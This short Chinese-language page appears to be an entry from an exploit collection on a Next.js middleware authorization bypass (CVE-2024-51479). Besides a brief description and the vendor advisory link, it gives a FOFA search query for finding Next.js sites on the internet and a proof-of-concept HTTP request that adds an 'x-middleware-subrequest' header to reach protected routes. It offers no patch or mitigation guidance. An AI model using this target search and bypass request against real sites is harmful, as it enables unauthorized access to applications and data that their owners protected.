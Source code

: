# Next.js权限绕过(CVE-2024-51479)

Next.js 是一个用于构建全栈 Web 应用程序的 React 框架。在受影响的版本中，如果 Next.js 应用程序正在基于路径名的中间件中执行授权，则可能会绕过应用程序根目录下的页面的此授权，允许未经授权访问Next.js应用程序中的根级页面，这些页面本应受到授权检查的保护

## fofa
```javascript
app="NEXT.JS"
```

## poc
```javascript
GET /protected-route HTTP/1.1 
Host: xxx.com
x-middleware-subrequest: true
```


## 参考链接

- https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
